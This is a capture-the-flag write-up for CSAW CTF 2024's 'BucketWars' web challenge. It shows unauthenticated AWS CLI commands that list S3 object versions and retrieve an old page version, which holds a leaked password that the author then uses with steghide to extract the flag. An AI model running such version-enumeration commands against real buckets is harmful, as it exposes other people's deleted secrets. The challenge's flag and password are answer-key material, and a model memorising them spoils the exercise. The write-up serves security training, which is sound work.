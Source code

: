 ```yaml
---
name: BucketWars (2024)
event: CSAW CTF 2024
category: Web
description: Writeup for BucketWars (Web) - CSAW CTF (2024) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# BucketWars

## Description

> let's keep our storage simple -- and remember we don't make mistakes in these parts.

## Solution

Visit website and find five different versions at `/versions.html`.


```
https://bucketwars.ctf.csaw.io/index_v1.html
https://bucketwars.ctf.csaw.io/index_v2.html
https://bucketwars.ctf.csaw.io/index_v3.html
https://bucketwars.ctf.csaw.io/index_v4.html
https://bucketwars.ctf.csaw.io/index.html
```


Error when trying to access an invalid file, e.g. https://bucketwars.ctf.csaw.io/dgdfgdfgfdg.html


```
404 Not Found

    Code: NoSuchKey
    Message: The specified key does not exist.
    Key: dgdfgdfgfdg.html
    RequestId: J5QS9TW2YM0210EH
    HostId: 8Yt6lsFV9VR0evraLVRz7D0sEwIN4AzW6eQnjEBMAdOGMu80sI/PiVRqAYrfmLEb+E+8DuJihAo=

An Error Occurred While Attempting to Retrieve a Custom Error Document

    Code: NoSuchKey
    Message: The specified key does not exist.
    Key: https://s3.us-east-2.amazonaws.com/bucketwars.ctf.csaw.io/404.jpg
```


Can try to list the s3 bucket contents, but no permissions.


```bash
aws s3 ls s3://bucketwars.ctf.csaw.io/ --no-sign-request

An error occurred (AccessDenied) when calling the ListObjectsV2 operation: Access Denied
```


The most recent version (v5) has a hint:

> Looking deeper into the stolen bucket only reveals past versions of our own selves one might muse


```bash
aws s3api list-object-versions --bucket bucketwars.ctf.csaw.io --no-sign-request > output.txt
```


There's 300 lines of JSON but here's a snippet.


```json
{
	"ETag": "\"07bb73d00569d07588c0b5661438d9d8\"",
	"Size": 1118,
	"StorageClass": "STANDARD",
	"Key": "index_v1.html",
	"VersionId": "xueLuUGnF1kS6dcOaspeUUZN0N4Cdlsq",
	"IsLatest": true,
	"LastModified": "2024-08-05T01:59:50+00:00"
},
{
	"ETag": "\"d3f2f46b2f1814b636cb1c7991a1a328\"",
	"Size": 1290,
	"StorageClass": "STANDARD",
	"Key": "index_v1.html",
	"VersionId": "ToA1N09DluJkPVFATO6IwOTZzhDkva09",
	"IsLatest": false,
	"LastModified": "2024-08-05T00:26:48+00:00"
},
{
	"ETag": "\"5c3665517b3e538158ab09b15a647dbb\"",
	"Size": 1456,
	"StorageClass": "STANDARD",
	"Key": "index_v1.html",
	"VersionId": "zCVAK4kjygiOnWWGGi1BZOR87Ef09Z0L",
	"IsLatest": false,
	"LastModified": "2024-08-05T00:20:20+00:00"
},
{
	"ETag": "\"9a5824c100e6975c203e2ae517c9ec0d\"",
	"Size": 1555,
	"StorageClass": "STANDARD",
	"Key": "index_v1.html",
	"VersionId": "CFNz2JPIIJfRlNfnVx8a45jgh0J90KxS",
	"IsLatest": false,
	"LastModified": "2024-08-05T00:20:08+00:00"
},
{
	"ETag": "\"130f7fdffa9c3a0e24853b651dfe07ac\"",
	"Size": 1571,
	"StorageClass": "STANDARD",
	"Key": "index_v1.html",
	"VersionId": "t6G6A20JCaF5nzz6KuJR6Pj1zePOLAdB",
	"IsLatest": false,
	"LastModified": "2024-08-05T00:19:57+00:00"
}
```


We have five different versions of the `index_v1.html` file, but all the other four versions only have a single entry.

It's also worth noting that `v1` was the only page with no image, only the string: `YIKES`. Presumably, we need to recover the old versions of `index_v1.html` 🤔

We already have the latest, so we try the other 4. The first two had nothing but version 4, which is interesting.


```bash
aws s3api get-object --bucket bucketwars.ctf.csaw.io --key index_v1.html --version-id CFNz2JPIIJfRlNfnVx8a45jgh0J90KxS index_v1_version4.html --no-sign-request
```



```json
{
    "AcceptRanges": "bytes",
    "LastModified": "2024-08-05T00:20:08+00:00",
    "ContentLength": 1555,
    "ETag": "\"9a5824c100e6975c203e2ae517c9ec0d\"",
    "VersionId": "CFNz2JPIIJfRlNfnVx8a45jgh0J90KxS",
    "ContentType": "text/html",
    "ServerSideEncryption": "AES256",
    "Metadata": {}
}
```


It contains a password in the HTML: `versions_leaks_buckets_oh_my`.


```html
<!-- Note to self: be sure to delete this password: versions_leaks_buckets_oh_my -->
```


Version 5 contains a new URL.


```html
<img src="https://asdfaweofijaklfdjkldfsjfas.s3.us-east-2.amazonaws.com/sand-pit-1345726_640.jpg" />
```


The last bit took me too long because I didn't expect stego in a web challenge 😆 Pair those two pieces of information with `steghide`, and you get the flag.


```bash
steghide extract -sf sand-pit-1345726_640.jpg -p versions_leaks_buckets_oh_my
wrote extracted data to "flag.txt".
```


Flag: `csawctf{cl0d_Bu4K3tz_AR3_F4Ir_g$m3}`
